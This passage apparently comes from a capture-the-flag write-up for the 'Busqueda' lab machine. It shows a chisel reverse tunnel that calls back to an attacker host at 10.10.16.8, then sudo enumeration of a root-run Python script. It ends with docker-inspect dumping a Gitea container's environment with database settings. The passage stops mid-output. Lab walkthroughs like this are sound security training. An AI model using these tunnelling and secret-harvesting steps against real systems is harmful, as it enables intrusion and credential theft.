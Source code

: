 ### port forward

```console
└─╼$ ./chisel_1.9.1_linux_amd64 server --reverse -p 9090
2024/03/04 23:54:44 server: Reverse tunnelling enabled
2024/03/04 23:54:44 server: Fingerprint j6Jnc8MiS5bVtknVyCyjvPOjaWJaJ3R3iHnvk4MCQ8g=
2024/03/04 23:54:44 server: Listening on http://0.0.0.0:9090
2024/03/04 23:56:10 server: session#1: tun: proxy#R:80=>localhost:3000: Listening

svc@busqueda:/dev/shm$ ./chisel client 10.10.16.8:9090 R:80:localhost:3000 &
```

### sudo enum

```console
svc@busqueda:/var/www/app$ sudo -l
[sudo] password for svc:
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *

svc@busqueda:/var/www/app$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py -h
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

Functions:

- docker-ps
- docker-inspect
- full-checkup

```console
svc@busqueda:/var/www/app$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS             PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   14 months ago   Up About an hour   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   14 months ago   Up About an hour   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db

svc@busqueda:/var/www/app$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq .
{
  "Id": "960873171e2e2058f2ac106ea9bfe5d7c737e8ebd358a39d2dd91548afd0ddeb",
  "Created": "2023-01-06T17:26:54.457090149Z",
  "Path": "/usr/bin/entrypoint",
  "Args": [
    "/bin/s6-svscan",
    "/etc/s6"
  ],
 ...
  "Env": [
  "USER_UID=115",
  "USER_GID=121",
  "GITEA__database__DB_TYPE=mysql",
  "GITEA__database__HOST=db:3306",
  "GITEA__database__NAME=gitea",
  "GITEA__database__USER=gitea",
```